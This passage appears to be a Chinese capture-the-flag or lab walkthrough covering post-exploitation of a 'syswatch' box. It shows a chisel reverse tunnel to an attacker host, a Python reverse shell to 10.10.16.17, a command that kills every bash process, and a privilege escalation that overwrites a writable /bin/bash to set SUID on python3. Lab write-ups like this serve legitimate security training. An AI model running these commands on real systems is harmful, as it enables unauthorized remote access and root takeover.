

查看`syswatch.db`数据库文件,发现发现存在admin用户




#### 搭建隧道

```bash
# 自行上传chisel
# attack
chisel server -p 9001 --reverse

# remote
chisel client ATTACK_IP:9001 R:7777:127.0.0.1:7777 
```

kali访问`127.0.0.1:7777`,使用`admin:SyswatchAdmin2026/admin`登录均无果



#### sudo权限

```bash
# 查看sudo权限
sudo -l
ls -al
```

发现dev_ryan用户存在sudo权限,可以执行`/opt/syswatch/syswatch.sh`,并且/bin/bash可写



使用python反弹shell,断开当前/bin/bash连接

```bash
# attack
nc -lvvp 5555
# remote
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.16.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

避免使用`/bin/bash`被占用将进程中的`/bin/bash`全kill

```bash
kill -9 $(ps aux | grep bash | grep -v grep | awk '{print $2}')
```

- **payload**

```bash
echo '#!/tmp/bash.bak' > /tmp/bash_payload
echo 'chmod u+s /usr/bin/python3' >> /tmp/bash_payload
cp /bin/bash /tmp/bash.bak
cp /tmp/bash_payload /bin/bash
sudo /opt/syswatch/syswatch.sh
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```




